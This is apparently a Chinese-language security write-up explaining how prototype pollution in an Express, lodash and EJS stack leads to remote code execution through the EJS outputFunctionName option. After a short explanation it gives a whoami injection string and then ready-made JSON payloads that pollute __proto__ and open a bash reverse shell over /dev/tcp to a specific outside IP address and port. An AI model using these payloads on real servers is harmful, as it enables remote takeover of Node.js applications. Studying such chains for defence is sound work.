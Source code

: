 ![](https://s2.loli.net/2022/01/14/U2yQ9cgmCFsufV6.png)

原理请看：https://evi0s.com/2019/08/30/expresslodashejs-%E4%BB%8E%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93%E5%88%B0rce/

简述：![](https://evi0s.com/wp-content/uploads/2019/08/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7-2019-08-30-%E4%B8%8A%E5%8D%8812.08.24.png)

看到这里，立刻发现这里有一个代码注入的漏洞

仔细解释一下：

可以看到， `opts` 对象 `outputFunctionName` 成员在 express 配置的时候并没有给他赋值，默认也是未定义，即 `undefined`，这样在 574 行时，if 判否，跳过

但是在我们有原型链污染的前提之下，我们可以控制基类的成员。这样我们给 `Object` 类创建一个成员 `outputFunctionName`，这样可以进入 if 语句，并将我们控制的成员 `outputFunctionName` 赋值为一串恶意代码，从而造成代码注入。在后面模版渲染的时候，注入的代码被执行，也就是这里存在一个代码注入的 RCE

至于恶意代码构造就非常简单了。在不考虑后果的情况下，我们可以直接构造如下代码

```js
a; return global.process.mainModule.constructor._load('child_process').execSync('whoami'); //
```

JavaScript

Copy

放到代码里面看就是

```js
prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
// After injection
prepended += ' var a; return global.process.mainModule.constructor._load("child_process").execSync("whoami"); // 后面的代码都被注释了'
```

从而构造payload:

```json
{"__proto__":{"__proto__":{"outputFunctionName":"_t1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/124.223.44.100/6666 0>&1\"');var __t2"}}}

{"__proto__":{"__proto__":{"outputFunctionName":"_t1;global.process.mainModule.require('child_process').exec('bash -i >& /dev/tcp/124.223.44.100/6666 0>&1');var __t2"}}}
```



















